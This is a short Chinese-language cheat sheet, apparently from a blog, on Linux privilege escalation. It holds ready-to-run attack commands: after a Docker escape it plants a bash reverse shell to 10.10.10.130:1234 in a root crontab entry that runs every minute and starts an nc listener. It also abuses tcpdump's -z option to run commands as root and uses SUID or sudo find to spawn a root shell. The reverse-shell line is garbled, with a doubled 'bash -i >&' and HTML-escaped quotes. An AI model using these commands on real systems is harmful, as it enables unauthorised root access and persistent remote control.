   
提权？不如来看看黑客怎么提升自己在对方的心里地位吧  
  
  
首先docker逃逸成功，其次是root权限（docker容器），即可利用如下命令提权（计划任务提权/添加计划任务）  

```
echo &#34;/bin/bash -i >& bash -i >& /dev/tcp/10.10.10.130/1234 0>&1&#34;>> /tmp/forest/tmp/shell.sh
chmod +x /tmp/forest/tmp/shell.sh
cat /tmp/forest/tmp/shell.sh
# 写入crontab计划任务，表示每隔1分钟以root权限执行一次计划
echo '*/1 * * * * root  bash /tmp/shell.sh' > /tmp/forest/etc/crontab
cat  /tmp/forest/etc/crontab
nc -lvnp 1234

```

  
tcpdump提权  

```
COMMAND='id'
TF=$(mktemp)  # 一个临时文件路径
echo &#34;$COMMAND&#34; > $TF  # 追加要执行的命令到上面那个文件
chmod +x $TF # 赋予执行权限
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z $TF -Z root
#            注意这里 ⬆ 是你需要监听的网卡地址

# 即可提权执行命令

```

  
find提权（find需要具有suid权限，即可提权）  

```
# sudo
sudo find . -exec /bin/sh \; -quit

# shell
find . -exec /bin/sh \; -quit

```

  
计划任务提权  

```
# 命令
crontab -e

# sudo
sudo crontab -e

# 修改计划任务文件，或者追加一个定时任务，前提是root用户的计划任务

```
